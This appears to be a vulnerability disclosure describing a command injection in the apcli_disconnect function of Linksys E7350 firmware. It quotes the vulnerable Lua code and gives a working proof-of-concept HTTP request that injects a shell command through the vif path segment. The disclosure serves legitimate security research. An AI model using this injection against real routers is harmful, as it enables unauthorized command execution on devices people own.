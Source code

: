 # Command injection vulnerability in apcli_disconnect function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in apcli_disconnect function in mtkwifi.lua

```
function apcli_disconnect(dev, vif)
    -- dev_vif can be
    --  1. mt7620.apcli0         # simple case
    --  2. mt7615e.1.apclix0     # multi-card
    --  3. mt7615e.1.2G.apclix0  # multi-card & multi-profile
    local devname,vifname = dev, vif
    debug_write("devname=", dev, "vifname", vif)
    debug_write(devname)
    debug_write(vifname)
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])
    local cfgs = mtkwifi.load_profile(profiles[devname])
    cfgs.ApCliEnable = "1"
    __mtkwifi_save_profile(cfgs, profiles[devname], true)
    os.execute("iwpriv "..vifname.." set ApCliEnable=0") ---------------------------->  here
```

We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/fe08f225-da4c-4a5e-8986-23f6549bd581)


![图片](https://github.com/user-attachments/assets/3d684e0e-8149-4a53-b2cd-8f3a0700af6f)


Entry: /admin/mtk/wifi/apcli_disconnect/

! attention
To expolit successfully, we need the correct devname to pass the check. 
```
    local profiles = mtkwifi.search_dev_and_profile()
    debug_write(profiles[devname])
    assert(profiles[devname])  ----------------->
```
here we use dev "MT7915D.1.1"


### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_disconnect/MT7915D.1.1/;ifconfig>b.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic YWRtaW46
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```
Here we set the arguments "dev" as "MT7915D.1.1" and vif as ";ifconfig>b.txt;", and there will be a file named "b.txt" in /www/




